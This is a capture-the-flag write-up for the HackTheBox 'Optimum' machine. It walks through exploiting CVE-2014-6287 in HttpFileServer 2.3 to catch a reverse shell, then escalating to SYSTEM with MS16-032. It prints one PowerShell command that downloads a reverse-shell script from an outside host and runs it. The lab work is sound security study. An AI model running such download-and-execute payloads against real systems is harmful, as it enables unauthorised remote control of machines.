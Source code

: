 ```yaml
---
layout: single
title: HackTheBox - Optimum Writeup
permalink: /hackthebox-optimum-writeup/
excerpt: "Optimum is an easy box from HacktheBox. This machine offers a lot of opportunities to learn a bunch of exploits since this is an old machine. It's start by exploiting the HttpFileServer to gain the initial foothold. On top of that, it teaches me the importance of understanding architecture. Even though, the machine is 64-bit but it certainly can run the 32-bit version of powershell executable."
classes: wide
header:
  teaser: "/assets/images/htb/optimum/Optimum.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - reverse-powershell
  - rce
  - CVE-2014-6287
  - CVE-2016-0099
  - MS16-032
  - httpfileserver
  - empire-project
  - windows-sysnative
---
```



![1](/assets/images/htb/optimum/Optimum.png)

### <font color="#9bffc8">Nmap</font>
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

### <font color="#9bffc8">HFS (HttpFileServer)</font>

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files.
> It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
> _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![1](/assets/images/htb/optimum/hfs-main-page.png)

### <font color="#9bffc8">CVE-2014-6287</font>
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

> CVE description:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### <font color="#9bffc8">Burpsuite</font>
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![1](/assets/images/htb/optimum/burpsuite-search-ping.png)

![1](/assets/images/htb/optimum/tcpdump-ping-tun0.png)

### <font color="#9bffc8">Nishang: Invoke-PowerShellTcp.ps1</font>

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/htb-responder/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/htb-responder/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![1](/assets/images/htb/optimum/python3-server-and-nc-listening.png)

![1](/assets/images/htb/optimum/burpsuite-with-powershell-reverse-shell.png)

![1](/assets/images/htb/optimum/nc-catch-the-shell.png)

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![1](/assets/images/htb/optimum/run-the-systeminfo-command.png)

### <font color="#9bffc8">MS16-032 : CVE-2016-0099</font>

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### <font color="9bffc8">EmpireProject: Invoke-MS16032.ps1</font>

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

> Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. <br>
> _resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![1](/assets/images/htb/optimum/download-ms16032-wget.png)

![1](/assets/images/htb/optimum/edit-the-exploit-file-ms16032.png)

![1](/assets/images/htb/optimum/put-at-the-last-line.png)

### <font color="#9bffc8">Windows: sysnative</font>

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![1](/assets/images/htb/optimum/example-tested-exploit.png)

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-32-bit.png)

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![1](/assets/images/htb/optimum/check-the-arc-of-powershell-64-bit.png)

### <font color="#9bffc8">Windows: Privilege Escalation</font>

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![1](/assets/images/htb/optimum/last-image.png)